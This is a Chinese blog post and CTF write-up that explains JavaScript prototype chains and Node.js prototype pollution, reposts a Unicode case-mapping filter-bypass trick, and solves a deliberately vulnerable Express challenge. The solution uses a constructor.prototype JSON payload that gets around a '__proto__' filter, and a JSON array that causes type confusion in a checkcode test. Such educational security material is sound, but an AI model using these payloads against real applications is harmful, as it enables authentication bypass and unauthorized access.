





# 记一次nodejs污染学习

做到一道关于nodejs污染的题目，顾来补一补

> 参考文章
>
> 什么是原型链？[继承与原型链 - JavaScript | MDN](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Inheritance_and_the_prototype_chain)
>
> 什么是原型链污染？[浅析CTF中的Node.js原型链污染 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/361333.html)
>
> 解题参考：[6.12ctf练习_ctf登录页面flag-CSDN博客](https://blog.csdn.net/weixin_74020633/article/details/139626323)

## 什么是Node.js原型链

JavaScript 使用对象实现继承。每个对象都有一条链接到另一个称作*原型*的对象的内部链。该原型对象有自己的原型，依此类推，直到原型是 `null` 的对象。根据定义，`null` 没有原型，并作为这条*原型链*中最后的一环。在运行时修改原型链的任何成员、甚至是换掉原型都是可能的，所以像静态分派这样的概念在 JavaScript 中不存在。


## 基于原型链的继承

### 继承属性

JavaScript 对象是动态的属性（称为**自有属性**）“包”。JavaScript 对象有一条指向原型对象的链。当试图访问对象的属性时，不仅在该对象上查找属性，还会在该对象的原型上查找属性，以及原型的原型，依此类推，直到找到一个名字匹配的属性或到达原型链的末尾。

嗯怎么理解呢？

```javascript
const o = {
  a: 1,
  b: 2,
  // __proto__ 设置了 [[Prototype]]。在这里它被指定为另一个对象字面量。
  __proto__: {
    b: 3,
    c: 4,
  },
};

// o.[[Prototype]] 具有属性 b 和 c。
// o.[[Prototype]].[[Prototype]] 是 Object.prototype（我们会在下文解释其含义）。
// 最后，o.[[Prototype]].[[Prototype]].[[Prototype]] 是 null。
// 这是原型链的末尾，
// 因为根据定义，null 没有 [[Prototype]]。
// 因此，完整的原型链看起来像这样：
// { a: 1, b: 2 } ---> { b: 3, c: 4 } ---> Object.prototype ---> null

console.log(o.a); // 1
// o 上有自有属性“a”吗？有，且其值为 1。

console.log(o.b); // 2
// o 上有自有属性“b”吗？有，且其值为 2。
// 原型也有“b”属性，但其没有被访问。
// 这被称为属性遮蔽（Property Shadowing）

console.log(o.c); // 4
// o 上有自有属性“c”吗？没有，检查其原型。
// o.[[Prototype]] 上有自有属性“c”吗？有，其值为 4。

console.log(o.d); // undefined
// o 上有自有属性“d”吗？没有，检查其原型。
// o.[[Prototype]] 上有自有属性“d”吗？没有，检查其原型。
// o.[[Prototype]].[[Prototype]] 是 Object.prototype 且
// 其默认没有“d”属性，检查其原型。
// o.[[Prototype]].[[Prototype]].[[Prototype]] 为 null，停止搜索，
// 未找到该属性，返回 undefined。

```

大概就是这么个道理，js查找某个属性时，如果没有查找到对应的自有属性的话，就会接着去查找他的原型，如果还是没有，那就查找原型的原型...直到最后为null终止，返回undefined

> 给对象设置属性会创建自有属性。获取和设置行为规则的唯一例外是当它被 [getter 或 setter](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Guide/Working_with_objects#定义_getter_与_setter) 拦截时。（大雾）

根据代码例子上面我们其实也发现，我们其实可以构造更长的原型链

```javascript
const o = {
  a: 1,
  b: 2,
  // __proto__ 设置了 [[Prototype]]。在这里它被指定为另一个对象字面量。
  __proto__: {
    b: 3,
    c: 4,
    __proto__: {
      d: 5,
    },
  },
};

// { a: 1, b: 2 } ---> { b: 3, c: 4 } ---> { d: 5 } ---> Object.prototype ---> null

console.log(o.d); // 5

```

### 继承方法

JavaScript 中定义“[方法](https://developer.mozilla.org/zh-CN/docs/Glossary/Method)”的形式和基于类的语言定义方法的形式不同。在 JavaScript 中，对象可以以属性的形式添加函数。继承的函数与其他属性一样，包括属性遮蔽（在这种情况下，是一种*方法重写*的形式）。

当执行继承的函数时，[`this`](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Operators/this) 值指向继承对象，而不是将该函数作为其自有属性的原型对象。

```javascript
const parent = {
  value: 2,
  method() {
    return this.value + 1;
  },
};

console.log(parent.method()); // 3
// 当调用 parent.method 时，“this”指向了 parent

// child 是一个继承了 parent 的对象
const child = {
  __proto__: parent,
};
console.log(child.method()); // 3
// 调用 child.method 时，“this”指向了 child。
// 又因为 child 继承的是 parent 的方法，
// 首先在 child 上寻找属性“value”。
// 然而，因为 child 没有名为“value”的自有属性，
// 该属性会在 [[Prototype]] 上被找到，即 parent.value。

child.value = 4; // 将 child 上的属性“value”赋值为 4。
// 这会遮蔽 parent 上的“value”属性。
// child 对象现在看起来是这样的：
// { value: 4, __proto__: { value: 2, method: [Function] } }
console.log(child.method()); // 5
// 因为 child 现在拥有“value”属性，“this.value”现在表示 child.value

```

### 继承函数

pass


## 什么是nodejs原型链污染

### 介绍

在JavaScript中，每个对象都有一个原型，它是一个指向另一个对象的引用。当我们访问一个对象的属性时，如果该对象没有这个属性，JavaScript引擎会在它的原型对象中查找这个属性。这个过程会一直持续，直到找到该属性或者到达原型链的末尾。
攻击者可以利用这个特性，通过修改一个对象的原型链，来污染程序的行为。例如，攻击者可以在一个对象的原型链上设置一个恶意的属性或方法，当程序在后续的执行中访问该属性或方法时，就会执行攻击者的恶意代码。

举个例子

```javascript
var a = {number : 520}
var b = {number : 1314}
b.__proto__.number=520 
var c= {}
c.number //520
b.number //1314
```

#### 一、为什么执行过`b.__proto__.number=520 `后，我们输出b的值，其值仍为1314

这是因为在JavaScript中存在这样一种继承机制：
我们这里调用`b.number`时，它的具体调用过程是如下所示的

```
1、在b对象中寻找number属性
2、当在b对象中没有找到时，它会在b.__proto__中寻找number属性
3、如果仍未找到，此时会去b.__proto__.__proto__中寻找number属性
```

也就是说，它从自身开始寻找，然后一层一层向上递归寻找，直到找到或是递归到`null`为止，此机制被称为`JavaScript继承链`，我们这里的污染的属性是在`b.__proto__`中，而我们的`b`对象本身就有`number`，所以其值并未改变。

#### 二、为什么新建的值为空的c对象，调用`c.number`竟然有值而且为我们设定的520

当明白上个问题时，这个问题也就迎刃而解了，我们这里的`c`对象虽然是空的，但`JavaScript继承链`的机制就会使它继续递归寻找，此时也就来到了`c.__proto__`中寻找`number`属性，我们刚刚进行了原型链污染，它的`c.__proto__`其实就是`Object.protoype`，而我们进行污染的`b.__proto__`也是`Object.prototype`，所以此时它调用的`number`就是我们刚刚污染的属性，所以这也就是为什么`c .number=520`


### 大小写小特性

> [Fuzz中的javascript大小写特性 | 离别歌](https://www.leavesongs.com/HTML/javascript-up-low-ercase-tip.html)
>
> 转载一下p神的文章

toUpperCase()是javascript中将小写转换成大写的函数。toLowerCase()是javascript中将大写转换成小写的函数。但是这俩函数真的只有这两个功能么？

不如我们来fuzz一下，看看toUpperCase功能如何？

```
if (!String.fromCodePoint) {
	(function() {
		var defineProperty = (function() {
			// IE 8 only supports `Object.defineProperty` on DOM elements
			try {
				var object = {};
				var $defineProperty = Object.defineProperty;
				var result = $defineProperty(object, object, object) && $defineProperty;
			} catch(error) {}
			return result;
		}());
		var stringFromCharCode = String.fromCharCode;
		var floor = Math.floor;
		var fromCodePoint = function() {
			var MAX_SIZE = 0x4000;
			var codeUnits = [];
			var highSurrogate;
			var lowSurrogate;
			var index = -1;
			var length = arguments.length;
			if (!length) {
				return '';
			}
			var result = '';
			while (++index < length) {
				var codePoint = Number(arguments[index]);
				if (
					!isFinite(codePoint) || // `NaN`, `+Infinity`, or `-Infinity`
					codePoint < 0 || // not a valid Unicode code point
					codePoint > 0x10FFFF || // not a valid Unicode code point
					floor(codePoint) != codePoint // not an integer
				) {
					throw RangeError('Invalid code point: ' + codePoint);
				}
				if (codePoint <= 0xFFFF) { // BMP code point
					codeUnits.push(codePoint);
				} else { // Astral code point; split in surrogate halves
					// http://mathiasbynens.be/notes/javascript-encoding#surrogate-formulae
					codePoint -= 0x10000;
					highSurrogate = (codePoint >> 10) + 0xD800;
					lowSurrogate = (codePoint % 0x400) + 0xDC00;
					codeUnits.push(highSurrogate, lowSurrogate);
				}
				if (index + 1 == length || codeUnits.length > MAX_SIZE) {
					result += stringFromCharCode.apply(null, codeUnits);
					codeUnits.length = 0;
				}
			}
			return result;
		};
		if (defineProperty) {
			defineProperty(String, 'fromCodePoint', {
				'value': fromCodePoint,
				'configurable': true,
				'writable': true
			});
		} else {
			String.fromCodePoint = fromCodePoint;
		}
	}());
}
for (var j = 'A'.charCodeAt(); j <= 'Z'.charCodeAt(); j++){
	var s = String.fromCodePoint(j);
	for (var i = 0; i < 0x10FFFF; i++) {
		var e = String.fromCodePoint(i);
		if (s == e.toUpperCase() && s != e) {
			document.write("char: "+e+"<br/>");
	};
};
}
```

  结果我们可以看到：


  [](https://www.leavesongs.com/content/uploadfile/201409/a0171411234653.jpg)

  其中混入了两个奇特的字符"ı"、"ſ"。

  这两个字符的“大写”是I和S。也就是说"ı".toUpperCase() == 'I'，"ſ".toUpperCase() == 'S'。通过这个小特性可以绕过一些限制。

  同样，toLowerCase也有同样的字符：

  [](https://www.leavesongs.com/content/uploadfile/201409/11f51411234890.jpg)

  这个"K"的“小写”字符是k，也就是"K".toLowerCase() == 'k'.

  用这个特性可以完成 http://prompt.ml/9 。

## 一道node.js污染的题目

### 题目

main.js

```javascript
const express = require("express")
const fs = require("fs")
const cookieParser = require("cookie-parser");
const controller = require("./controller")

const app = express();
const PORT = Number(process.env.PORT) || 80
const HOST = '0.0.0.0'


app.use(express.urlencoded({ extended: false }))
app.use(cookieParser())
app.use(express.json())

app.use(express.static('static'))

app.get("/", (res) => {
    res.sendFile(__dirname, "static/index.html")
})

app.post("/", (req, res) => {
    controller.LoginController(req, res)
})

app.get("/flag1", (req, res) => {
    controller.Flag1Controller(req, res)
})

app.post("/flag2", (req, res) => {
    controller.Flag2Controller(req, res)
})

app.listen(PORT, HOST, () => {
    console.log(`Server is listening on Host ${HOST} Port ${PORT}.`)
})

```

controller.js

```javascript
const fs = require("fs");
const SECRET_COOKIE = process.env.SECRET_COOKIE || "this_is_testing_cookie"

const flag1 = fs.readFileSync("/flag1")
const flag2 = fs.readFileSync("/flag2")

function merge(target, source) {
    for (let key in source) {
        if (key == "__proto__") {
            continue; // no proto， please bypass
        }
        if (key in target && key in source) {
            merge(target[key], source[key])
        } else {
            target[key] = source[key]
        }
    }
}

function LoginController(req, res) {
    try {
        let user = {}
        merge(user, req.body)

        if (user.username !== "admin" || user.password !== Math.random().toString()) {
            res.status(401).type("text/html").send("Login Failed")
        } else {
            res.cookie("user", SECRET_COOKIE)
            req.user = "admin"
            res.redirect("/flag1")
        }
    } catch (e) {
        console.log(e)
        res.status(401).type("text/html").send("What the heck")
    }
}

function Flag1Controller(req, res) {
    try {
        if (req.cookies.user === SECRET_COOKIE || req.user == "admin") {
            res.setHeader("This_Is_The_Flag1", flag1.toString().trim())
            res.status(200).type("text/html").send("Login success. Welcome,admin!")
        } else {
            res.status(401).type("text/html").send("Unauthorized")
        }
    } catch (__) { }
}

function Flag2Controller(req, res) {
    let checkcode = req.body.checkcode ? req.body.checkcode : 1234;
    console.log(req.body)
    if (checkcode.length === 16) {
        try {
            checkcode = checkcode.toLowerCase()
            if (checkcode !== "aGr5AtSp55dRacer") {
                res.status(403).json({ "msg": "Invalid Checkcode1:" + checkcode })
            }
        } catch (__) { }
        res.status(200).type("text/html").json({ "msg": "You Got Another Part Of Flag: " + flag2.toString().trim() })
    } else {
        res.status(403).type("text/html").json({ "msg": "Invalid Checkcode2:" + checkcode })
    }
}

module.exports = {
    LoginController,
    Flag1Controller,
    Flag2Controller
}

```

### 题解

这道题跟[西湖论剑 2022]Node Magical Login差不多，但是有一点点不同 [6.12ctf练习_ctf登录页面flag-CSDN博客](https://blog.csdn.net/weixin_74020633/article/details/139626323)

这道题目有三个路由LoginController，Flag1Controller，Flag2Controller

我们首先来看LoginController路由

```javascript
function LoginController(req, res) {
    try {
        let user = {}
        merge(user, req.body)

        if (user.username !== "admin" || user.password !== Math.random().toString()) {
            res.status(401).type("text/html").send("Login Failed")
        } else {
            res.cookie("user", SECRET_COOKIE)
            req.user = "admin"
            res.redirect("/flag1")
        }
    } catch (e) {
        console.log(e)
        res.status(401).type("text/html").send("What the heck")
    }
}
```

首先通过merge函数将request.body中传入的参数合并到 `user` 对象中。

我们先来看看登录成功的条件，要求user对象中的username属性为admin，而password属性则为一个随机数，我们基本上不可能得到

如果登录成功，则会将 cookie 设置为SECRET_COOKIE，同时给user赋值admin，接着访问/flag1

我们再来看看Flag1Controller路由

```javascript
function Flag1Controller(req, res) {
    try {
        if (req.cookies.user === SECRET_COOKIE || req.user == "admin") {
            res.setHeader("This_Is_The_Flag1", flag1.toString().trim())
            res.status(200).type("text/html").send("Login success. Welcome,admin!")
        } else {
            res.status(401).type("text/html").send("Unauthorized")
        }
    } catch (__) { }
}
```

这个要求比较简单，当cookie为SECRET_COOKIE或者user=admin的时候，就能得到我们第一个flag

但是要达到这个目标，正常来说我们要在LoginController成功登录才行，但是这道题显然难以实现（爆不出来除非狗运）

所有我们考虑使用node.js原型链污染的方法来解决

```
let user = {}
merge(user, req.body)
```

 借助这个merge函数，将我们传入的参数合并到user里面      

同时在merge函数里面存在对\_\_proto\_\_的过滤，考虑使用等价方法代替如constructor.prototype

payload:

```
{
"constructor":{
	"prototype":{
		"user":"admin"
		}
	}
}
```



通过hackbar传参即可，注意enctype要改成json（一开始没发现卡了很久...）

传参之后通过访问/flag1即可得到第一个flag



flag在cookie里面

接着来看flag2

```javascript
function Flag2Controller(req, res) {
    let checkcode = req.body.checkcode ? req.body.checkcode : 1234;
    console.log(req.body)
    if (checkcode.length === 16) {
        try {
            checkcode = checkcode.toLowerCase()
            if (checkcode !== "aGr5AtSp55dRacer") {
                res.status(403).json({ "msg": "Invalid Checkcode1:" + checkcode })
            }
        } catch (__) { }
        res.status(200).type("text/html").json({ "msg": "You Got Another Part Of Flag: " + flag2.toString().trim() })
    } else {
        res.status(403).type("text/html").json({ "msg": "Invalid Checkcode2:" + checkcode })
    }
}
```

这里要求checkcode长度要为16，并且在toLowerCase()转换为小写后字符串=="aGr5AtSp55dRacer"

这里没对传入的数据的格式进行严格的检查，可以利用JSON数组进行绕过

json数组

```
{"数组名称":["a","b","c"]}
```

payload

```
{"checkcode":["aGr5AtSp55dRacer",0,0,0,0,0,0,0,0,0,0,0,0,0,0,0]}
```

> "aGr5AtSp55dRacer"在数组中为一个值，所以要满足长度为16，还需要添加除了预期字符串之外的一系列数字，验证代码简单地提取 `checkcode` 字段，而没有检查其类型，就直接使用整个数组，导致 `toLowerCase()` 等字符串操作被绕过



完结撒花，拿到两个flag
